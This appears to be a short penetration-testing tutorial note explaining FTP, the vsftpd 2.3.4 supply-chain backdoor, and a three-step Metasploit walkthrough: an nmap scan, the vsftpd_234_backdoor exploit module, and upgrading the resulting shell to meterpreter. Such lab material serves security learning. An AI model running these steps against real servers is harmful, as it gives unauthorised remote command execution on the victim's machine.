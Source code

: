 + FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.

+ It is also frequently used as a means of transferring files to and from the directory of a web server.

+ `vsftpd` is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.

+ `vsftpd V2.3.4` is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the `vsftpd` download archive through a supply chain attack. 

### How to exploit ?

1. Perform a scan with `db_nmap`.

2. Exploiting `VSFTPD V2.3.4` to execute backdoor commands.
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

3. Initially we'll get a command shell session, we'll update it to a `meterpreter` session.
```
use post/multi/manage/shell_to_meterpreter
```

